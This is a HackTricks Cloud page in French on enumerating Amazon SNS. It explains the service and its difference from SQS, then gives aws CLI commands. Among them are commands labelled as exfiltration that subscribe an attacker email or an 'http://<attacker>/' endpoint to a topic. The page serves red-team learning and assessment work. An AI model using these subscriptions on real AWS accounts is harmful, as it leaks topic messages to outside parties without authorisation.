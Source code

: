 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) est décrit comme un **service de messagerie entièrement géré**. Il prend en charge à la fois les types de communication **application-à-application** (A2A) et **application-à-personne** (A2P).

Les fonctionnalités clés pour la communication A2A incluent les **mécanismes de publication/abonnement (pub/sub)**. Ces mécanismes introduisent des **sujets**, cruciaux pour permettre une messagerie **push basée sur un haut débit et de nombreux à de nombreux**. Cette fonctionnalité est très avantageuse dans les scénarios impliquant des systèmes distribués, des microservices et des architectures sans serveur basées sur des événements. En tirant parti de ces sujets, les systèmes de publication peuvent distribuer efficacement des messages à un **large éventail de systèmes d'abonnement**, facilitant un modèle de messagerie en éventail.

### **Différence avec SQS**

**SQS** est un service **basé sur des files d'attente** qui permet une communication point à point, garantissant que les messages sont traités par un **unique consommateur**. Il offre une **livraison au moins une fois**, prend en charge les files d'attente standard et FIFO, et permet la conservation des messages pour des réessais et un traitement différé.\
D'autre part, **SNS** est un service **basé sur la publication/abonnement**, permettant une communication **un-à-plusieurs** en diffusant des messages à **plusieurs abonnés** simultanément. Il prend en charge **divers points de terminaison d'abonnement comme l'email, le SMS, les fonctions Lambda et HTTP/HTTPS**, et fournit des mécanismes de filtrage pour une livraison ciblée des messages.\
Bien que les deux services permettent le découplage entre les composants dans des systèmes distribués, SQS se concentre sur la communication en file d'attente, tandis que SNS met l'accent sur les modèles de communication basés sur des événements et en éventail.

### **Énumération**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Notez que si le **sujet est de type FIFO**, seuls les abonnés utilisant le protocole **SQS** peuvent être utilisés (HTTP ou HTTPS ne peuvent pas être utilisés).

De plus, même si le `--topic-arn` contient la région, assurez-vous de spécifier la bonne région dans **`--region`** ou vous obtiendrez une erreur qui ressemble à celle indiquant que vous n'avez pas accès, mais le problème est la région.
{% endhint %}

#### Accès non authentifié

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Escalade de privilèges

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post-exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistance

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Références

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
